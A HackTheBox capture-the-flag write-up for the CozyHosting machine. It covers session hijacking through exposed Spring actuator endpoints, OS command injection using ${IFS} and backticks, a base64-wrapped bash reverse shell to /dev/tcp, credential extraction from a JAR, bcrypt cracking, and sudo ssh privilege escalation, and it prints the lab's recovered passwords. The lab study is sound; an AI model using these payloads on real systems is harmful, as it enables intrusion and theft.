

## Writeup for CozyHosting from HackTheBox

First an nmap scan was performed, using `nmap -sC -sV <IP>`, on the target machine. This command is used to identify open ports to connect to, the services the ports were running and the versions of the services, as well as allow nmap to run its own scripts on the open ports. The scan returned this output:


```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-19 17:57 EST
Nmap scan report for 10.10.11.230
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.02 seconds
```


The nmap scan revealled an Openssh server on port 22 and a http server on port 80 which, visited, redirects to http://cozyhosting.htb. Hence, the domain name must be added to /etc/hosts before proceeding.


Upon visiting the website, there was nothing that immediately appeared to be exploitable. Hence, I used the tool "dirsearch" to find any directories that the webpage may have. The output of dirsearch is as below:


```bash
kali@kali:~/dirsearch$ sudo python3 dirsearch.py -u http://cozyhosting.htb

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11714

Output: /home/kali/dirsearch/reports/http_cozyhosting.htb/_23-12-19_18-00-27.txt

Target: http://cozyhosting.htb/

[18:00:27] Starting: 
[18:01:16] 200 -    0B  - /;/login                                          
[18:01:16] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[18:01:16] 200 -    0B  - /;/admin
[18:01:16] 200 -    0B  - /;/json
[18:01:16] 200 -    0B  - /;login/                                          
[18:01:16] 200 -    0B  - /;json/
[18:01:16] 200 -    0B  - /;admin/                                          
[18:01:21] 400 -  435B  - /a%5c.aspx                                        
[18:01:25] 200 -    0B  - /actuator/;/auditLog                              
[18:01:25] 200 -    0B  - /actuator/;/caches
[18:01:25] 200 -    0B  - /actuator/;/beans                                 
[18:01:25] 200 -    0B  - /actuator/;/exportRegisteredServices
[18:01:25] 200 -    0B  - /actuator/;/healthcheck
[18:01:25] 200 -    0B  - /actuator/;/features
[18:01:25] 200 -    0B  - /actuator/;/flyway
[18:01:25] 200 -    0B  - /actuator/;/heapdump
[18:01:25] 200 -    0B  - /actuator/;/liquibase
[18:01:25] 200 -    0B  - /actuator/;/info
[18:01:25] 200 -    0B  - /actuator/;/logfile
[18:01:25] 200 -  634B  - /actuator
[18:01:25] 200 -    0B  - /actuator/;/events
[18:01:25] 200 -    0B  - /actuator/;/env
[18:01:25] 200 -    0B  - /actuator/;/httptrace
[18:01:25] 200 -    0B  - /actuator/;/integrationgraph
[18:01:25] 200 -    0B  - /actuator/;/auditevents
[18:01:25] 200 -    0B  - /actuator/;/configprops
[18:01:25] 200 -    0B  - /actuator/;/conditions
[18:01:25] 200 -    0B  - /actuator/;/health
[18:01:25] 200 -    0B  - /actuator/;/dump                                  
[18:01:25] 200 -    0B  - /actuator/;/configurationMetadata
[18:01:25] 200 -    0B  - /actuator/;/jolokia
[18:01:25] 200 -    0B  - /actuator/;/loggers
[18:01:25] 200 -    0B  - /actuator/;/mappings
[18:01:25] 200 -    0B  - /actuator/;/metrics
[18:01:25] 200 -    0B  - /actuator/;/prometheus
[18:01:25] 200 -    0B  - /actuator/;/releaseAttributes
[18:01:25] 200 -    0B  - /actuator/;/loggingConfig
[18:01:25] 200 -    0B  - /actuator/;/registeredServices
[18:01:25] 200 -    0B  - /actuator/;/refresh
[18:01:26] 200 -    0B  - /actuator/;/springWebflow
[18:01:26] 200 -    0B  - /actuator/;/scheduledtasks
[18:01:26] 200 -    0B  - /actuator/;/shutdown
[18:01:26] 200 -    0B  - /actuator/;/sessions
[18:01:26] 200 -    0B  - /actuator/;/ssoSessions
[18:01:26] 200 -    0B  - /actuator/;/resolveAttributes                     
[18:01:26] 200 -    0B  - /actuator/;/trace                                 
[18:01:26] 200 -    0B  - /actuator/;/threaddump
[18:01:26] 200 -    0B  - /actuator/;/status                                
[18:01:26] 200 -    0B  - /actuator/;/statistics                            
[18:01:26] 200 -    0B  - /actuator/;/sso                                   
[18:01:27] 200 -   15B  - /actuator/health                                  
[18:01:27] 200 -    5KB - /actuator/env                                     
[18:01:28] 200 -   95B  - /actuator/sessions                                
[18:01:29] 200 -   10KB - /actuator/mappings                                
[18:01:37] 401 -   97B  - /admin                                            
[18:01:40] 200 -    0B  - /admin/%3bindex/                                  
[18:01:47] 200 -    0B  - /admin;/                                          
[18:01:47] 200 -    0B  - /Admin;/                                          
[18:01:54] 200 -  124KB - /actuator/beans                                   
[18:02:23] 200 -    0B  - /axis//happyaxis.jsp                              
[18:02:23] 200 -    0B  - /axis2//axis2-web/HappyAxis.jsp                   
[18:02:23] 200 -    0B  - /axis2-web//HappyAxis.jsp                         
[18:02:36] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[18:03:00] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf       
[18:03:00] 200 -    0B  - /engine/classes/swfupload//swfupload.swf          
[18:03:00] 500 -   73B  - /error                                            
[18:03:03] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/ 
[18:03:04] 200 -    0B  - /extjs/resources//charts.swf                      
[18:03:21] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf            
[18:03:32] 200 -    0B  - /jkstatus;                                        
[18:03:43] 200 -    4KB - /login                                            
[18:03:43] 200 -    0B  - /login.wdm%2e                                     
[18:03:44] 204 -    0B  - /logout                                           
                                                                             
Task Completed
```


Above it can be seen that `/actuator/sessions` is directory. Upon visiting the directory, the results are as shown:


It appears to show multiple Java Session Ids and their correspnding usernames. It appears that the JSESSIONID of the user "kanderson" can be obtained and then used to access services that would be unauthorised for the user. Going back to the directories found by dirsearch, it can be seen that "/admin" was one of the directories. When visiting the admin directory without a session id, the user is redirected to a login page. However, on when visiting the site on Burp Suite, add the header "Cookie: JSESSIONID=\<token>". This then allows the user to access the admin panel of the site.

Upon visiting the admin panel, at the bottom, there are input fields which ask the user for a hostname and username to enter into:





This can be tested by entering random values for each field then intercepting the request using Burp Suite. The intercepted request is as shown below:


The request intercepted was a POST request to "/executessh". Since it also asks for a username and hostname, it appears these details would be used to establish an ssh connection with the provided hostname. In order to do this, the site may attempt to use the OS `ssh` command. Hence, there is a possibility that the site is vulnerable to a OS command injection vulnerability.


To test this, first the parameter `sleep 10` was sent as the hostname then username parameter. When tested on the username parameter, an error appears stating that the username cannot contain whitespaces.


To get rid of whitespaces on a OS command,`${IFS}` was used. In Bash scripting, `${IFS}` refers to the Internal Field Separator variable. The IFS variable determines the delimiter used between different words in a string. By default a space is the IFS value. Hence, the payload was changed to `sleep${IFS}10`. When setting this payload as the username, an interesting error occurred:


The error is an ssh error that occurs when an invalid username or hostname is provided to the command. This confirms that the backend in "/executessh" is using the OS command `ssh` and that the "username" parameter is vulnerable to command injection. Now, the payload was editied to \`sleep${IFS}10\`. In bash, whatever is enclosed in backticks will be executed. Upon sending this over Burp Suite, there was no response for about 10 seconds:


Hence, a method has finally been found that would allow the vulnerability to be leveraged to execute commands on the target machine, which can be used to send a reverse shell. 


First, a netcat listener was started on port 1234 to catch as reverse shells that may be sent from the server. Next the command \`bash${IFS}-i${IFS}\>&\${IFS}/dev/tcp/\<IP>/1234${IFS}0\>&1\` was sent the server, but failed to send a reverse shell. It took some experimenting with bash commands, however, a valid method was finally identified for sending the reverse shell. First, the bash command `bash -i >& /dev/tcp/<IP>/1234 0>&1`, which is typically used to send a reverse shell, was encoded in base64. Next, the below command was constructed:


```bash
`echo${IFS}"<base64 command>"${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash`
```


When the server executes the command, this will make the server decode the contents of the base64 string, then execute the decoded string as a bash command. However, the decoded base64 string will contain the command that will trigger a reverse shell.


As a result, a reverse shell was obtained as user "app" on the machine "cozyhosting".


While enumerating through the target machine, first it was checked what files were located in the current directory. There a file called "cloudhosting-0.0.1.jar" was found. Furthermore upon running `ls /home`, the user "josh" was found. 

Jar files are used to package Java class files, associated metadata, and resources (such as images, text files, etc.) into a single file. Hence, reading through the contents of the Jar could reveal sensitive information which can be exploited. 

In order to read the Jar file, first it must be sent to the user's machine. To do this a http server was started on the target machine on port 80 through this command:


``` bash
app@cozyhosting:/app$ python3 -m http.server 8000
```


Next the wget command is used to download the file from the target machne:


```bash
kali@kali:~/Desktop$ wget http://10.10.11.230:8000/cloudhosting-0.0.1.jar
--2023-12-19 19:18:25--  http://10.10.11.230:8000/cloudhosting-0.0.1.jar
Connecting to 10.10.11.230:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.j 100%[======================>]  57.47M   442KB/s    in 76s     

2023-12-19 19:19:42 (776 KB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]
```


Upon downloading the file, the Jar file can now be read. An online app "EzyZip" was used as it contained a Jar file decompiler. Upon uploading the file to "EasyZip", this allowed the Jar file to be viewed.

A file called "application.properties" was found. In Spring Boot this file is used to configure particular settings on the webserver, such as what database the websever should connect to in order to access data.


Upon reading the file, this was found:


According to the contents of the file, a the webserver is connected to a Postgres server which contains a database "cozyhosting". The credentials used to access the database are postgres:Vg&nvzAQ7XxR.


Switching back the target machine, these credentials were then used to access the Postgres server using the command `psql -h 127.0.0.1 -U postgres`. When connected, the database "cozyhosting" was accessed and all the contents within the table "users" was dumped, as shown below:


```
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \d
cozyhosting=# 
cozyhosting=# \d
cozyhosting=# select * from users;
cozyhosting=# exit
```


The command "\c" is used to switch to a database while "\d" is used to view the tables within the database. The tables in the database are shown below:


Upon executing the sql query "select * from users", which will access all entries in the "users" table, this was the output:


The hashes of two users "admin" and "kanderson" were exposed. Saving the "admin" hash to a file named "hash.txt", the tool, John the Ripper, was then used to crack the hash:

```bash
kali@kali:~/Desktop$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:00:49 DONE (2023-12-19 19:26) 0.02013g/s 56.54p/s 56.54c/s 56.54C/s dougie..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Hash: $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm Cracked: manchesterunited. 


Hence, the password "manchesterunited" was revealled. The credentials "josh:manchesterunited" can then be used to successfully ssh to the server as the user "josh". Once connected to the server using SSH, the user.txt file can then be read.


To esclate privileges, first the command `sodo -l` was run and the output is as follows:


```bash
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```


"josh" is able to run the ssh command as the super user. In order to exploit this, the website "GTFObins" was used. The website "GTFObins" catalogs Linux system binaries that can be exploited to bypass local security restrictions and escalate privileges.


Searching for ssh on the website, the site: https://gtfobins.github.io/gtfobins/ssh/#sudo, shows how the ssh binary can be exploited if "sudo" privileges are available. The user can escalate privileges by just running the command displayed on the site:

```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
root@cozyhosting:/home/josh# python3 -c "import pty; pty.spawn('/bin/bash')"
root@cozyhosting:/home/josh# whoami
root
```


This command spawns a new shell as the root user, hence, allowing the root.txt file to be read.


Overall, I found the box was relatively more difficult to exploit as it required knowledge of multiple areas. This required to be much more thorough in my research in understanding how JSESSIONIDs worked in the context of Spring Boot applications. Upon visiting the admin panel, my ability to craft OS command injection payloads was tested as it took some experimentation to uncover the right payload. After this an understanding of Jar files and Spring Boot applications was needed to find the database credentials, however, the steps to escalate privileges were straight forward.